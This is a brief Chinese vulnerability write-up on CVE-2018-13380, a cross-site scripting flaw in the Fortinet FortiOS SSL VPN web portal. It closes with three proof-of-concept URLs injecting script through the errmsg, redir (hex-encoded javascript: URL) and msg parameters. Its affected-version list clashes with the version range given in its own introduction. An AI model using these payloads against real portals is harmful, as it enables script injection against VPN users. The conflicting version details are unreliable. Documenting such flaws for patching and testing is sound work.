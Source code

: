 # CVE-2018-13380 Fortinet FortiOS xss漏洞

### 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中的SSL VPN Web门户存在跨站脚本漏洞。该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

### 二、漏洞影响

Fortinet Fortios 6.2 Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

### 三、复现过程


```
http://url/remote/error?errmsg=ABABAB--%3E%3Cscript%3Ealert(1)%3C/script%3E
```


```
http://url/remote/loginredir?redir=6a6176617363726970743a616c65727428646f63756d656e742e646f6d61696e29
```


```
http://url/message?title=x&msg=%26%23<svg/onload=alert(1)>;
```